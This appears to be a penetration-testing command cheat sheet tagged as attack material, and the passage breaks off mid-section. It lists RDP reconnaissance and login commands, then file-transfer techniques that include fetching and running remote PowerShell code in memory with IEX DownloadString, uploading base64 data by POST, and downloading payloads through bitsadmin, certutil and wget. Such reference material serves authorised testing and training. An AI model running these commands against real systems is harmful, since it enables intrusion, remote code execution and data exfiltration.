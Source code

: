 ##  footprinting - RDP - nmap scripts
#plateform/linux #target/remote #port/3389 #protocol/rdp #cat/ATTACK/
```
nmap -sV -sC <target> -p3389 --script rdp*
```

##  footprinting - RDP - nmap packet trace
#plateform/linux #target/remote #port/3389 #protocol/rdp #cat/ATTACK/
```
nmap -sV -sC 10.129.201.248 -p3389 --packet-trace --disable-arp-ping -n
```

##  footprinting - RDP - rdpseccheck
#plateform/linux #target/remote #port/3389 #protocol/rdp #cat/ATTACK/
```
rdp-sec-check.pl <target>
```

##  footprinting - RDP - rdp connection
#plateform/linux #target/remote #port/3389 #protocol/rdp #cat/ATTACK/
```
xfreerdp /u:<user> /p:"<password>" /v:<target>
```

##  file transfers - windows - powershell download
#plateform/windows #target/remote #port/ #protocol/ #cat/ATTACK/
```
echo "Invoke-WebRequest <TargetFileURL> -OutFile <windowsOut>"
```

##  file transfers - windows - execute in memory powershell (download)
#plateform/windows #target/remote #port/ #protocol/ #cat/ATTACK/
```
echo "IEX (New-Object Net.WebClient).DownloadString('<TargetFileURL>')"
```

##  file transfers - windows - upload with powershell
#plateform/windows #target/remote #port/ #protocol/ #cat/ATTACK/
```
echo "Invoke-WebRequest -Uri <TargetDirectoryURL> -Method POST -Body $b64"
```

##  file transfers - windows - bitsadmin download
#plateform/windows #target/remote #port/ #protocol/ #cat/ATTACK/
```
echo "bitsadmin /transfer n <TargetFileURL> C:\Temp\<windowsOut>"
```
##  file transfers - windows - certutil download
#plateform/windows #target/remote #port/ #protocol/ #cat/ATTACK/
```
echo "certutil.exe -verifyctl -split -f <TargetFileURL>"
```
##  file transfers - linux - wget download
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
wget <TargetFileURL> -O /tmp/<linuxOut>
```
##  file transfers - linux - curl download
